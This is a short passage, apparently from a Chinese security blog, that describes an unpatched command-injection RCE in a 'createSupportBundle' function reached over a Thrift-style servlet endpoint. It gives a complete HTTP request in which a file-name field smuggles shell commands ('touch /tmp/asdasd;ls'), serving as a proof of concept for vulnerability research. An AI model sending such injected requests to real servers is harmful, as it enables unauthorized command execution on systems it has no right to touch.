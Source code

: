 [![](assets/1701612478-799e97da39bd0f50220a68158170d79d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614103007-60a06300-0a5b-1.png)

rce 同样用 createSupportBundle 函数，这个命令注入没修。

```bash
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/asdasd;ls "},"4":{"lst":["str",0]}}]
```

文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。
